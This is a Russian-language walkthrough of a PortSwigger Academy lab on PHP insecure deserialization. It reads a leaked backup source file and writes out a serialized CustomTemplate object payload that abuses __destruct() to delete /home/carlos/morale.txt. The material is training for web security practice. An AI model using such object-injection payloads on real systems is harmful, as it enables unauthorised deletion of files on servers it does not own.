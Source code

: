 залогинимся под `wiener:peter`

Нажмем `ПКМ` -> `inspect` и посмотрим содержимое страницы

увидим в разметке следующий комментарий
```
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/4.%20Arbitrary%20object%20injection%20in%20PHP/pics%20for%20walkthrough/1.png)

Обратимся к данному файлу через Burp Suite
```
GET /libs/CustomTemplate.php~
```
и увидим его содержимое 


```
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/4.%20Arbitrary%20object%20injection%20in%20PHP/pics%20for%20walkthrough/2.png)

При анализе кода нас тут интересует следующая функция
```
function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }

```
Иначе говоря, класс CustomTemplate содержит метод/функцию __destruct(). 
Это вызовет метод unlink() для атрибута lock_file_path, который удалит файл /home/carlos/morale.txt.

Так мы и удалим необходимый файл согласно заданию лабораторной работе

Перейдем в `Proxy` -> `HTTP history` и найдем запрос на корневую страницу и оправим данный запрос в `Repeater`
```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
Нажмем `Apply changes`

и получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/4.%20Arbitrary%20object%20injection%20in%20PHP/pics%20for%20walkthrough/3.png)
